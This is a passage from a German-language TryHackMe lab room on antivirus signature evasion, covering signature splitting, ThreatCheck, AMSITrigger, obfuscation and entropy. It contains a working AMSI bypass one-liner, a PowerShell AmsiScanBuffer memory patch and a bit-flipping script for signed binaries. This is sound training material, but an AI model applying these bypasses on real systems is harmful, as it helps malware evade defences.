


# Task 1 - Einführung
Ein Gegner kann Schwierigkeiten haben, spezifische Erkennungsmethoden zu überwinden, wenn er es mit einer fortschrittlichen Antiviren-Engine oder einer **EDR** (**E**ndpoint **D**etection & **R**esponse) Lösung zu tun hat. Selbst nach der Anwendung einiger der häufigsten in den [Prinzipien der Verschleierung](https://tryhackme.com/r/room/obfuscationprinciples) diskutierten Verschleierungstechniken können Signaturen in einer schädlichen Datei weiterhin vorhanden sein.

Um persistente Signaturen zu bekämpfen, können Gegner jede einzelne beobachten und nach Bedarf angehen.

In diesem Raum werden wir verstehen, was Signaturen sind und wie man sie findet, und dann versuchen, sie mit einem neutralen Denkansatz zu brechen. Um tiefer einzusteigen und heuristische Signaturen zu bekämpfen, werden wir auch fortgeschrittene Code-Konzepte und "Best Practices" für Malware diskutieren.

### Lernziele

- Ursprung der Signaturen verstehen und lernen, sie in schädlichem Code zu beobachten/erkennen.
- Dokumentierte Verschleierungsmethoden implementieren, um Signaturen zu brechen.
- Nicht-Verschleierungs-Techniken nutzen, um nicht funktionsorientierte Signaturen zu durchbrechen.

Dieser Raum baut auf den [Prinzipien der Verschleierung](https://tryhackme.com/r/room/obfuscationprinciples) auf; wir empfehlen dringend, ihn abzuschließen, bevor Sie mit diesem Raum beginnen, falls Sie dies noch nicht getan haben.

Bevor Sie diesen Raum starten, machen Sie sich mit grundlegenden Programmierlogiken und Syntaxen vertraut. Kenntnisse in C und PowerShell sind empfohlen, aber nicht zwingend erforderlich.

Wir haben eine Basis-Windows-Maschine mit den für diesen Raum benötigten Dateien bereitgestellt. Sie können auf die Maschine im Browser oder über RDP mit den folgenden Anmeldedaten zugreifen:

Maschinen-IP: `MACHINE_IP`             Benutzername: `Student`             Passwort: `TryHackMe!`

# Task 2 - Signaturidentifikation
Bevor wir uns darauf stürzen, Signaturen zu brechen, müssen wir verstehen und identifizieren, wonach wir suchen. Wie im [Einführungskurs zur Antivirensoftware](https://tryhackme.com/r/room/introtoav) erklärt, werden Signaturen von Antiviren-Engines verwendet, um möglicherweise verdächtige und/oder schädliche Programme zu verfolgen und zu identifizieren. In dieser Aufgabe werden wir untersuchen, wie wir manuell bestimmen können, an welcher genauen Stelle im Byte eine Signatur beginnt.

Beim Identifizieren von Signaturen, ob manuell oder automatisiert, müssen wir einen iterativen Prozess anwenden, um festzustellen, an welchem Byte eine Signatur beginnt. Indem wir ein kompiliertes Binärprogramm rekursiv in der Mitte teilen und testen, können wir eine grobe Schätzung des Byte-Bereichs erhalten, der weiter untersucht werden muss.

Wir können die nativen Dienstprogramme `head`, `dd` oder `split` verwenden, um ein kompiliertes Binärprogramm zu teilen. Im folgenden Befehlsfenster werden wir durch die Verwendung von head gehen, um die erste Signatur in einem msfvenom-Binärprogramm zu finden.

Nachdem Sie das Binärprogramm geteilt haben, verschieben Sie es von Ihrer Entwicklungsumgebung auf eine Maschine mit der Antiviren-Engine, die Sie testen möchten. Wenn ein Alarm erscheint, gehen Sie zum unteren Teil des geteilten Binärprogramms und teilen es erneut. Wenn kein Alarm erscheint, gehen Sie zum oberen Teil des geteilten Binärprogramms und teilen es erneut. Setzen Sie dieses Muster fort, bis Sie nicht mehr bestimmen können, wohin Sie gehen sollen; dies tritt normalerweise im Bereich von Kilobytes auf.

Sobald Sie den Punkt erreicht haben, an dem Sie das Binärprogramm nicht mehr genau teilen können, können Sie einen Hex-Editor verwenden, um das Ende des Binärprogramms zu betrachten, wo die Signatur vorhanden ist.
```hex
0000C2E0  43 68 6E E9 0A 00 00 00 0C 4D 1A 8E 04 3A E9 89  Chné.....M.Ž.:é‰
0000C2F0  67 6F BE 46 01 00 00 6A 40 90 68 00 10 00 00 E9  go¾F...j@.h....é
0000C300  0A 00 00 00 53 DF A1 7F 64 ED 40 73 4A 64 56 90  ....Sß¡.dí@sJdV.
0000C310  6A 00 68 58 A4 53 E5 E9 08 00 00 00 15 0D 69 B6  j.hX¤Såé......i¶
0000C320  F4 AB 1B 73 FF D5 E9 0A 00 00 00 7D 43 00 40 DB  ô«.sÿÕé....}C.@Û
0000C330  43 8B AC 55 82 89 C3 90 E9 08 00 00 00 E4 95 8E  C‹¬U‚‰Ã.é....ä•Ž
0000C340  2C 06 AC 29 A3 89 C7 90 E9 0B 00 00 00 0B 32 AC  ,.¬)£‰Ç.é.....2¬
```

Wir kennen die Position einer Signatur, aber wie gut lesbar sie ist, hängt sowohl vom verwendeten Tool als auch von der Kompilierungsmethode ab.

Nun möchte niemand stundenlang hin und her gehen, um schlechte Bytes zu finden; lassen Sie uns das automatisieren! Im nächsten Schritt werden wir einige FOSS (Free and Open-Source Software) Lösungen betrachten, die uns dabei helfen können, Signaturen in kompiliertem Code zu identifizieren.

## Fragen:
Verwenden Sie das Wissen, das Sie in dieser Aufgabe gewonnen haben, um die Binärdatei unter `C:\Users\Student\Desktop\Binaries\shell.exe` mit einem in dieser Aufgabe besprochenen nativen Dienstprogramm zu teilen. Bestimmen Sie rekursiv, ob die aufgeteilte Binärdatei eine Erkennung auslöst, bis Sie das nächstgelegene Kibibyte ermitteln, an dem die erste Signatur erkannt wird.
```
Keine Antwort nötig
```

Auf das nächstgelegene Kibibyte gerundet, wo befindet sich das erste erkannte Byte?
```

```

# Task 3 - Automatisierung der Signaturidentifizierung
Der Prozess aus der vorherigen Aufgabe kann ziemlich mühsam sein. Um ihn zu beschleunigen, können wir ihn automatisieren, indem wir Skripte verwenden, um Bytes über ein Intervall für uns aufzuteilen. [Find-AVSignature](https://github.com/PowerShellMafia/PowerSploit/blob/master/AntivirusBypass/Find-AVSignature.ps1) wird eine angegebene Byte-Range durch ein bestimmtes Intervall teilen.
```powershell
PS C:\> . .\FInd-AVSignature.ps1
PS C:\> Find-AVSignature

cmdlet Find-AVSignature at command pipeline position 1
Supply values for the following parameters:
StartByte: 0
EndByte: max
Interval: 1000

Do you want to continue?
This script will result in 1 binaries being written to "C:\Users\TryHackMe"!
[Y] Yes  [N] No  [S] Suspend  [?] Help (default is "Y"): y
```

Dieses Skript erleichtert einen Großteil der manuellen Arbeit, hat aber immer noch einige Einschränkungen. Obwohl es weniger Interaktion als die vorherige Aufgabe erfordert, muss dennoch ein geeignetes Intervall festgelegt werden, damit es ordnungsgemäß funktioniert. Das Skript überwacht auch nur die Zeichenfolgen der Binärdatei, wenn sie auf die Festplatte abgelegt werden, anstatt die vollständige Funktionalität des Antivirus-Motors zum Scannen zu nutzen.

Um dieses Problem zu lösen, können wir andere FOSS (Free and Open-Source Software) Tools verwenden, die die Motoren selbst nutzen, um die Datei zu scannen, darunter [DefenderCheck](https://github.com/matterpreter/DefenderCheck), [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) und [AMSITrigger](https://github.com/RythmStick/AMSITrigger). In dieser Aufgabe werden wir uns hauptsächlich auf ThreatCheck konzentrieren und am Ende kurz auf die Verwendung von AMSITrigger eingehen.
##
### ThreatCheck

ThreatCheck ist ein Fork von DefenderCheck und gilt als das am weitesten verbreitete/zuverlässigste der drei Tools. Zur Identifizierung möglicher Signaturen nutzt ThreatCheck mehrere Antivirus-Motoren gegen aufgeteilte kompilierte Binärdateien und gibt an, wo es schlechte Bytes vermutet.

ThreatCheck stellt keine vorkompilierte Version für die Öffentlichkeit zur Verfügung. Für eine einfache Nutzung haben wir das Tool bereits für Sie kompiliert; es befindet sich auf dem Desktop unter `C:\Users\Administrator\Desktop\Tools` des angehängten Computers.

Nachfolgend die grundlegende Syntax von ThreatCheck.
```cmd
C:\>ThreatCheck.exe --help
  -e, --engine    (Default: Defender) Scanning engine. Options: Defender, AMSI
  -f, --file      Analyze a file on disk
  -u, --url       Analyze a file from a URL
  --help          Display this help screen.
  --version       Display version information.
```

Für unsere Zwecke müssen wir nur eine Datei und optional einen Motor angeben. Allerdings werden wir AMSITrigger hauptsächlich verwenden, wenn es um **AMSI** (**A**nti-**M**alware **S**can **I**nterface) geht, wie wir später in dieser Aufgabe besprechen werden.
```cmd
C:\>ThreatCheck.exe -f Downloads\Grunt.bin -e AMSI
	[+] Target file size: 31744 bytes
	[+] Analyzing...
	[!] Identified end of bad bytes at offset 0x6D7A
	00000000   65 00 22 00 3A 00 22 00  7B 00 32 00 7D 00 22 00   e·"·:·"·{·2·}·"·
	00000010   2C 00 22 00 74 00 6F 00  6B 00 65 00 6E 00 22 00   ,·"·t·o·k·e·n·"·
	00000020   3A 00 7B 00 33 00 7D 00  7D 00 7D 00 00 43 7B 00   :·{·3·}·}·}··C{·
	00000030   7B 00 22 00 73 00 74 00  61 00 74 00 75 00 73 00   {·"·s·t·a·t·u·s·
	00000040   22 00 3A 00 22 00 7B 00  30 00 7D 00 22 00 2C 00   "·:·"·{·0·}·"·,·
	00000050   22 00 6F 00 75 00 74 00  70 00 75 00 74 00 22 00   "·o·u·t·p·u·t·"·
	00000060   3A 00 22 00 7B 00 31 00  7D 00 22 00 7D 00 7D 00   :·"·{·1·}·"·}·}·
	00000070   00 80 B3 7B 00 7B 00 22  00 47 00 55 00 49 00 44   ·?³{·{·"·G·U·I·D
	00000080   00 22 00 3A 00 22 00 7B  00 30 00 7D 00 22 00 2C   ·"·:·"·{·0·}·"·,
	00000090   00 22 00 54 00 79 00 70  00 65 00 22 00 3A 00 7B   ·"·T·y·p·e·"·:·{
	000000A0   00 31 00 7D 00 2C 00 22  00 4D 00 65 00 74 00 61   ·1·}·,·"·M·e·t·a
	000000B0   00 22 00 3A 00 22 00 7B  00 32 00 7D 00 22 00 2C   ·"·:·"·{·2·}·"·,
	000000C0   00 22 00 49 00 56 00 22  00 3A 00 22 00 7B 00 33   ·"·I·V·"·:·"·{·3
	000000D0   00 7D 00 22 00 2C 00 22  00 45 00 6E 00 63 00 72   ·}·"·,·"·E·n·c·r
	000000E0   00 79 00 70 00 74 00 65  00 64 00 4D 00 65 00 73   ·y·p·t·e·d·M·e·s
	000000F0   00 73 00 61 00 67 00 65  00 22 00 3A 00 22 00 7B   ·s·a·g·e·"·:·"·{
```

Das ist so einfach! Es ist keine weitere Konfiguration oder Syntax erforderlich, und wir können direkt damit beginnen, unsere Werkzeuge anzupassen. Um dieses Tool effizient zu nutzen, können wir zunächst identifizieren, welche schlechten Bytes entdeckt wurden, diese rekursiv aufbrechen und das Tool erneut ausführen, bis keine Signaturen mehr identifiziert werden.

Hinweis: Es können falsch-positive Ergebnisse auftreten, bei denen das Tool keine schlechten Bytes meldet. Dies erfordert Ihre eigene Intuition, um zu beobachten und zu lösen; wir werden jedoch dies in Aufgabe 4 weiter diskutieren.
##
### AMSITrigger

Wie in der [Runtime Detection Evasion](https://tryhackme.com/r/room/runtimedetectionevasion) behandelt, nutzt AMSI die Laufzeit, was es schwerer macht, Signaturen zu identifizieren und zu lösen. ThreatCheck unterstützt auch bestimmte Dateitypen wie PowerShell nicht, was AMSITrigger jedoch tut.

AMSITrigger wird den AMSI-Motor nutzen und Funktionen gegen ein bereitgestelltes PowerShell-Skript scannen und jede spezifische Code-Sektion melden, von der es glaubt, dass sie gemeldet werden muss.

AMSITrigger bietet eine vor-kompilierte Version auf ihrem GitHub und kann auch auf dem Desktop der angehängten Maschine gefunden werden.

Nachfolgend die Syntax-Nutzung von AMSITrigger:
```cmd
C:\>amsitrigger.exe --help
	-i, --inputfile=VALUE       Powershell filename
	-u, --url=VALUE             URL eg. <https://10.1.1.1/Invoke-NinjaCopy.ps1>
	-f, --format=VALUE          Output Format:
	                              1 - Only show Triggers
	                              2 - Show Triggers with Line numbers
	                              3 - Show Triggers inline with code
	                              4 - Show AMSI calls (xmas tree mode)
	-d, --debug                 Show Debug Info
	-m, --maxsiglength=VALUE    Maximum signature Length to cater for,
	                              default=2048
	-c, --chunksize=VALUE       Chunk size to send to AMSIScanBuffer,
	                              default=4096
	-h, -?, --help              Show Help
```

Für unsere Zwecke müssen wir nur eine Datei und das bevorzugte Format zur Meldung von Signaturen angeben.
```powershell
PS C:\> .\amsitrigger.exe -i bypass.ps1 -f 3
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Im nächsten Task werden wir besprechen, wie du die Informationen nutzen kannst, die du mit diesen Tools gesammelt hast, um Signaturen zu brechen.

## Fragen:
Unter Verwendung des im Task erlangten Wissens identifiziere die schädlichen Bytes in `C:\Users\Student\Desktop\Binaries\shell.exe` mithilfe von ThreatCheck und dem Defender-Engine. ThreatCheck kann bis zu 15 Minuten dauern, um den Offset zu finden. Du kannst es im Hintergrund laufen lassen, mit dem nächsten Task fortfahren und zurückkehren, wenn es fertig ist.
```
Keine Antwort nötig
```

An welchem Offset befanden sich die schädlichen Bytes am Ende der Datei?
```

```

# Task 4 - Statische codebasierte Signaturen
Sobald wir eine problematische Signatur identifiziert haben, müssen wir entscheiden, wie wir damit umgehen möchten. Abhängig von der Stärke und Art der Signatur kann sie möglicherweise durch einfache Verschleierungstechniken, wie sie in den [Obfuscation Principles](https://tryhackme.com/r/room/obfuscationprinciples) behandelt werden, gebrochen werden, oder es kann spezifische Untersuchungen und Maßnahmen erfordern. In diesem Task wollen wir mehrere Lösungen zur Behebung statischer Signaturen in Funktionen bereitstellen.

Die [Layered Obfuscation Taxonomy](https://cybersecurity.springeropen.com/counter/pdf/10.1186/s42400-020-00049-3.pdf) deckt die zuverlässigsten Lösungen als Teil der Obfuscating Methods und Obfuscating Classes Schicht ab.

### Obfuscating Methods

| Obfuscation Method       | Purpose                                                                   |
|--------------------------|---------------------------------------------------------------------------|
| Method Proxy             | Erstellt eine Proxy-Methode oder ein Ersatzobjekt                          |
| Method Scattering/Aggregation | Kombiniert mehrere Methoden zu einer oder zerstreut eine Methode in mehrere |
| Method Clone             | Erstellt Kopien einer Methode und ruft jede zufällig auf                   |

### Obfuscating Classes

| Obfuscation Method       | Purpose                                                                   |
|--------------------------|---------------------------------------------------------------------------|
| Class Hierarchy Flattening | Erstellt Proxies für Klassen unter Verwendung von Schnittstellen            |
| Class Splitting/Coalescing | Transferiert lokale Variablen oder Anweisungsgruppen in eine andere Klasse  |
| Dropping Modifiers       | Entfernt Klassenmodifizierer (public, private) und macht alle Member public |

Betrachten wir die obigen Tabellen: Obwohl sie möglicherweise spezifische technische Begriffe oder Ideen verwenden, können wir sie in eine Kerngruppe agnostischer Methoden gruppieren, die auf jedes Objekt oder jede Datenstruktur anwendbar sind.

Die Techniken **Klassen-Splitting/Coalescing** und **Methoden-Scattering/Aggregation** können in ein übergreifendes Konzept des Aufteilens oder Zusammenführens einer beliebigen **OOP** (**O**bjekt**o**rientierte **P**rogrammierung) Funktion gruppiert werden.

Andere Techniken wie **Dropping Modifiers** oder **Method Clone** können in ein übergreifendes Konzept des Entfernens oder Verbergens identifizierbarer Informationen gruppiert werden.
##
### Aufteilen und Zusammenführen von Objekten

Die Methodik, die erforderlich ist, um Objekte aufzuteilen oder zusammenzuführen, ähnelt sehr dem Ziel der Konkatenation, wie in den [Obfuscation Principles](https://tryhackme.com/r/room/obfuscationprinciples) behandelt.

Das Konzept dahinter ist relativ einfach: Wir versuchen, eine neue Objektfunktion zu erstellen, die die Signatur bricht, während die vorherige Funktionalität beibehalten wird.

Um ein konkreteres Beispiel zu geben, können wir die [bekannte Fallstudie](https://offensivedefence.co.uk/posts/covenant-profiles-templates/) in Covenant betrachten, die in der `GetMessageFormat` Zeichenkette präsent ist. Zuerst betrachten wir, wie die Lösung implementiert wurde, dann zerlegen wir sie und wenden sie auf die Obfuscation Taxonomy an.

**Ursprüngliche Zeichenkette**

Hier ist die ursprüngliche Zeichenkette, die erkannt wird:
```powershell
string MessageFormat = @"{{""GUID"":""{0}"",""Type"":{1},""Meta"":""{2},""IV"":""{3}"",""EncryptedMessage"":""{4}"",""HMAC"":""{5}""}}";
```

**Verschleierte Methode**

Hier ist die neue Klasse, die verwendet wird, um den String zu ersetzen und zu verketten.
```powershell
public static string GetMessageFormat // Format the public method
{
    get // Return the property value
    {
        var sb = new StringBuilder(@"{{""GUID"":""{0}"","); // Start the built-in concatenation method
        sb.Append(@"""Type"":{1},"); // Append substrings onto the string
        sb.Append(@"""Meta"":""{2}"",");
        sb.Append(@"""IV"":""{3}"",");
        sb.Append(@"""EncryptedMessage"":""{4}"",");
        sb.Append(@"""HMAC"":""{5}""}}");
        return sb.ToString(); // Return the concatenated string to the class
    }
}

string MessageFormat = GetMessageFormat
```

Zusammenfassung dieser Fallstudie: Klassenteilung wird verwendet, um eine neue Klasse für die lokale Variable zur Verkettung zu erstellen. Wir werden später in dieser Aufgabe und während der praktischen Herausforderung behandeln, wie man erkennt, wann eine bestimmte Methode verwendet werden sollte.
##
### Entfernen und Verdecken von identifizierbaren Informationen

Das Kernkonzept der Entfernung identifizierbarer Informationen ähnelt der Verschleierung von Variablennamen, wie in den [Prinzipien der Verschleierung](https://tryhackme.com/r/room/obfuscationprinciples) behandelt. In dieser Aufgabe gehen wir einen Schritt weiter, indem wir es gezielt auf identifizierte Signaturen in Objekten einschließlich Methoden und Klassen anwenden.

Ein Beispiel dafür findet sich in Mimikatz, wo ein Alarm für den String `wdigest.dll` ausgelöst wird. Dies kann gelöst werden, indem der String durch einen beliebigen zufälligen Bezeichner ersetzt wird, der in allen Instanzen des Strings geändert wird. Dies kann in der Verschleierungstaxonomie unter der Methode Proxy kategorisiert werden.

Dies unterscheidet sich kaum von den in den [Verschleierungsprinzipien](https://tryhackme.com/r/room/obfuscationprinciples) diskutierten Konzepten, wird jedoch auf eine spezifische Situation angewendet.
##
Verwenden Sie das Wissen, das Sie während dieser Aufgabe erlangt haben, um das folgende PowerShell-Snippet zu verschleiern, indem Sie AmsiTrigger zur Visualisierung von Signaturen verwenden.
```powershell
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$A = "AmsiScanBuffer"
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $A);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```
Nach ausreichender Verschleierung, reichen Sie das Snippet auf dem Webserver unter `http://MACHINE_IP/challenge-1.html` ein. Die Datei muss als `challenge-1.ps1` gespeichert werden. Wenn sie korrekt verschleiert ist, erscheint eine Flagge in einem Alarm-Popup.

## Fragen:
Welche Kennung wird gefunden, nachdem ein ordnungsgemäß obfuszierter Ausschnitt hochgeladen wurde?
```

```

# Task 5 - Statische eigenschaftsbasierte Signaturen
Verschiedene Erkennungsmaschinen oder Analysten können verschiedene Indikatoren in Betracht ziehen, anstatt nur auf Zeichenfolgen oder statische Signaturen zu setzen, um ihre Hypothese zu unterstützen. Signaturen können an mehrere Dateieigenschaften angehängt werden, darunter Datei-Hash, Entropie, Autor, Name oder andere identifizierbare Informationen, die einzeln oder in Kombination verwendet werden können. Diese Eigenschaften werden oft in Regelwerken wie **YARA** oder **Sigma** verwendet.

Einige Eigenschaften lassen sich leicht manipulieren, während andere, insbesondere bei vorkompilierten Closed-Source-Anwendungen, schwieriger zu handhaben sind.

In dieser Aufgabe wird diskutiert, wie der **Datei-Hash** und die **Entropie** sowohl von Open-Source- als auch von Closed-Source-Anwendungen manipuliert werden können.

Hinweis: Weitere Eigenschaften wie PE-Header oder Modul-Eigenschaften können als Indikatoren verwendet werden. Da diese Eigenschaften oft einen Agenten oder andere Maßnahmen zur Erkennung erfordern, werden sie in diesem Raum nicht behandelt, um den Fokus auf Signaturen zu halten.
##
### Datei-Hashes

Ein **Datei-Hash**, auch als **Prüfsumme** bekannt, dient dazu, eine eindeutige Datei zu kennzeichnen/identifizieren. Sie werden häufig verwendet, um die Echtheit einer Datei oder ihren bekannten Zweck (schädlich oder nicht) zu überprüfen. Datei-Hashes sind in der Regel willkürlich zu ändern und ändern sich aufgrund jeder Modifikation an der Datei.

Wenn wir Zugang zum Quellcode einer Anwendung haben, können wir einen beliebigen Abschnitt des Codes ändern und ihn neu kompilieren, um einen neuen Hash zu erstellen. Diese Lösung ist einfach umzusetzen, aber was ist, wenn wir eine vorkompilierte oder signierte Anwendung benötigen?

Bei einer signierten oder Closed-Source-Anwendung müssen wir Bit-Flipping verwenden.

Bit-Flipping ist ein häufiger kryptografischer Angriff, bei dem eine gegebene Anwendung durch Flippen und Testen jedes möglichen Bits mutiert wird, bis ein geeignetes Bit gefunden wird. Durch Flippen eines geeigneten Bits ändert sich die Signatur und der Hash der Anwendung, während alle Funktionen erhalten bleiben.

Wir können ein Skript verwenden, um eine Liste von **bit-gespiegelten** Varianten zu erstellen, indem wir jedes Bit flippen und eine neue **mutierte Variante** erstellen (~3000 - 200000 Varianten). Nachfolgend ein Beispiel einer Python-Implementierung für Bit-Flipping.
```python
import sys

orig = list(open(sys.argv[1], "rb").read())

i = 0
while i < len(orig):
	current = list(orig)
	current[i] = chr(ord(current[i]) ^ 0xde)
	path = "%d.exe" % i
	
	output = "".join(str(e) for e in current)
	open(path, "wb").write(output)
	i += 1
	
print("done")
```

Nachdem die Liste erstellt wurde, müssen wir nach intakten eindeutigen Eigenschaften der Datei suchen. Wenn wir zum Beispiel `msbuild` bit-flippen, müssen wir `signtool` verwenden, um nach einer Datei mit einem verwendbaren Zertifikat zu suchen. Dadurch wird sichergestellt, dass die Funktionalität der Datei nicht beeinträchtigt wird und die Anwendung ihre signierte Attribution behält.

Wir können ein Skript nutzen, um die bit-gespiegelte Liste zu durchlaufen und funktionale Varianten zu überprüfen. Nachfolgend ein Beispiel für die Implementierung eines Batch-Skripts.
```powershell
FOR /L %%A IN (1,1,10000) DO (
	signtool verify /v /a flipped\\%%A.exe
)
```

Diese Technik kann sehr lukrativ sein, obwohl sie viel Zeit in Anspruch nehmen kann und nur für einen begrenzten Zeitraum wirksam ist, bis der Hash entdeckt wird. Nachfolgend finden Sie einen Vergleich zwischen der originalen MSBuild-Anwendung und der bit-gespiegelten Variante.

##
### Entropie

Nach [IBM](https://www.ibm.com/docs/en/qsip/7.4?topic=content-analyzing-files-embedded-malicious-activity) wird Entropie definiert als "die Zufälligkeit der Daten in einer Datei, die verwendet wird, um festzustellen, ob eine Datei versteckte Daten oder verdächtige Skripte enthält." EDRs und andere Scanner nutzen oft die Entropie, um potenziell verdächtige Dateien zu identifizieren oder zu einer insgesamt bösartigen Bewertung beizutragen.

Entropie kann für obfuskierte Skripte problematisch sein, insbesondere wenn identifizierbare Informationen wie Variablen oder Funktionen verschleiert werden.

Um die Entropie zu senken, können wir zufällige Bezeichner durch zufällig ausgewählte englische Wörter ersetzen. Zum Beispiel könnten wir eine Variable von `q234uf` in `nature` ändern.

Um die Wirksamkeit der Änderung von Bezeichnern zu beweisen, können wir beobachten, wie sich die Entropie mithilfe von [CyberChef](https://gchq.github.io/CyberChef/#recipe=Entropy('Shannon%20scale')) ändert.

Nachfolgend finden Sie die Shannon-Entropieskala für einen standardmäßigen englischen Absatz.

**Shannon-Entropie: 4.587362034903882**


Hier ist die Shannon-Entropieskala für ein kleines Skript mit zufälligen Bezeichnern.

**Shannon-Entropie: 5.341436973971389**


Je nach verwendeter EDR gilt ein "verdächtiger" Entropiewert als ~ größer als 6,8.

Der Unterschied zwischen einem zufälligen Wert und englischem Text wird mit einer größeren Datei und mehr Vorkommen verstärkt.

Beachten Sie, dass Entropie in der Regel niemals allein verwendet wird, sondern nur zur Unterstützung einer Hypothese. Zum Beispiel sind die Entropie-Werte für den Befehl pskill und den hivenightmare-Exploit fast identisch.

Um die Entropie in Aktion zu sehen, schauen wir uns an, wie eine EDR sie zur Beitrag zu Bedrohungsindikatoren nutzen würde.

In der Studie [Eine empirische Bewertung von Endpoint Detection and Response Systems gegen Angriffsvektoren von Advanced Persistent Threats](https://www.mdpi.com/2624-800X/1/3/21/pdf) wird gezeigt, dass **SentinelOne** aufgrund hoher Entropie speziell durch AES-Verschlüsselung eine DLL erkennt.

## Fragen:
Verwenden Sie CyberChef, um die Shannon-Entropie der Datei `C:\Users\Student\Desktop\Binaries\shell.exe` zu ermitteln.
```
Keine Antwort nötig
```

Auf drei Dezimalstellen gerundet, was ist die Shannon-Entropie der Datei?
```

```

# Task 6 - Verhaltenssignaturen
Entschleierung von Funktionen und Eigenschaften kann viel erreichen mit minimalen Änderungen. Selbst nachdem statische Signaturen von einer Datei entfernt wurden, können moderne Engines immer noch das Verhalten und die Funktionalität der Binärdatei überwachen. Dies stellt zahlreiche Probleme für Angreifer dar, die nicht mit einfacher Verschleierung gelöst werden können.

Wie im [Einführung in Anti-Virus](https://tryhackme.com/r/room/introtoav) behandelt, verwenden moderne Antivirus-Engines zwei gängige Methoden zur Verhaltenserkennung: Beobachtung von Imports und Hooking bekannter schädlicher Aufrufe. Während Imports, wie später in dieser Aufgabe behandelt wird, einfach verschleiert oder mit minimalen Anforderungen modifiziert werden können, erfordert Hooking komplexe Techniken, die den Rahmen dieses Raumes überschreiten. Aufgrund der Häufigkeit von API-Aufrufen speziell, kann die Beobachtung dieser Funktionen ein wesentlicher Faktor sein, um festzustellen, ob eine Datei verdächtig ist, zusammen mit anderen Verhaltens- und Sicherheitsüberlegungen.

Bevor wir uns zu sehr in die Neuschreibung oder den Import von Aufrufen vertiefen, lassen Sie uns besprechen, wie API-Aufrufe traditionell genutzt und importiert werden. Zuerst werden wir C-basierte Sprachen behandeln und später in dieser Aufgabe kurz auf .NET-basierte Sprachen eingehen.

API-Aufrufe und andere Funktionen, die nativ für ein Betriebssystem sind, erfordern einen Zeiger auf eine Funktionsadresse und eine Struktur, um sie zu nutzen.

Strukturen für Funktionen sind einfach; sie befinden sich in **Importbibliotheken** wie `kernel32` oder `ntdll`, die Funktionsstrukturen und andere Kerninformationen für Windows speichern.

Das größte Problem bei Funktionenimporten sind die Funktionsadressen. Das Beschaffen eines Zeigers mag einfach erscheinen, jedoch sind aufgrund von ASLR (Address Space Layout Randomization) Funktionsadressen dynamisch und müssen gefunden werden.

Anstatt den Code zur Laufzeit zu ändern, wird der **Windows-Loader** `windows.h` verwendet. Zur Laufzeit wird der Loader alle Module in den Prozessadressraum abbilden und alle Funktionen aus jedem auflisten. Das betrifft die Module, aber wie werden Funktionsadressen zugewiesen?

Eine der wichtigsten Funktionen des Windows-Loaders ist die IAT (Import Address Table). Die IAT speichert Funktionsadressen für alle importierten Funktionen, die einen Zeiger für die Funktion zuweisen können.

Die IAT ist im **PE** (**P**ortable **E**xecutable)-Header `IMAGE_OPTIONAL_HEADER` gespeichert und wird vom Windows-Loader zur Laufzeit gefüllt. Der Windows-Loader erhält die Funktionsadressen oder genauer gesagt **Thunks** aus einer Zeigertabelle, die über einen API-Aufruf oder **Thunk-Tabelle** zugänglich ist. Weitere Informationen über die PE-Struktur finden Sie im [Windows Internals-Raum](https://tryhackme.com/r/room/windowsinternals).

Auf den ersten Blick wird einer API eine Thunk als Funktionsadresse vom Windows-Loader zugewiesen. Um dies etwas greifbarer zu machen, können wir ein Beispiel für den PE-Dump einer Funktion betrachten.  


##
Die Importtabelle kann viel Einblick in die Funktionalität einer Binärdatei bieten, was für einen Gegner nachteilig sein kann. Doch wie können wir verhindern, dass unsere Funktionen in der IAT erscheinen, wenn es erforderlich ist, einer Funktion eine Adresse zuzuweisen?

